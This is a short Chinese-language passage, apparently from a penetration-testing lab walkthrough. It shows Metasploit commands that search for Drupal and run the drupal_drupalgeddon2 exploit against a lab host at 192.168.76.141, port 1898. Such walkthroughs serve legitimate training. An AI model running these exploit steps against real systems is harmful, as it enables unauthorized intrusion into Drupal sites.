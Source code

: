 网上搜索查找Drupal这个CMS，或者直接使用Metasploit进行搜索。

```bash
msfconsole
search Drupal
```

找到了对应Drupal这个CMS的Payload。

![寻找payload](./脏牛/寻找payload.png)

```bash
use exploit/unix/webapp/drupal_drupalgeddon2 # 设置payload
set rhost 192.168.76.141 # 目标的IP地址
set rport 1898 # 目标的端口
exploit # 进行攻击
```
